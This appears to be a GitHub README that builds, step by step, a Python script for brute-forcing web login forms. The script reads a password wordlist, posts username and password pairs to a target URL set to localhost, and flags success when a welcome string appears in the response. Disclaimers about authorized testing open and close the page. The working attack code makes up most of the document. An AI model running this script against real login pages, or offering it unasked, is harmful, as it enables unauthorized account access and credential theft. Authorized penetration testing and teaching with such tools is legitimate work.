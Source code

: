 # Web-Login-Form-Brute-Forcing

## _Note:_
 _A web application you are authorized to test is required to test this script._
 <br>
 <br>
 
### Steps to perform Brute Forcing on Login Pages using the provided script:

#### 1. Import required libraries:
    import requests
    import sys
<br>

#### 2. Set up target URL and parameters:
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-100-list.txt"
    needle = "Welcome Back"
<br>

#### 3. Create a loop to iterate through usernames:
    for username in usernames:

<br>

#### 4. Open and read the password file:
    with open(passwords, "r") as passwords_list:

<br>

#### 5. Create a nested loop to iterate through passwords:
    for password in passwords_list:
                password = password.strip("\n").encode()

<br>

#### 6. Display current attempt:
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()

<br>

#### 7. Send POST request to the target URL:
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### 8. Check if login was successful:
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()

<br>

#### 9. Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")

<br>

_This script provides a basic framework for brute-forcing web login forms._ 

_However, it's important to note that using such scripts without permission is illegal and unethical._

_Always ensure you have proper authorization before testing security measures._
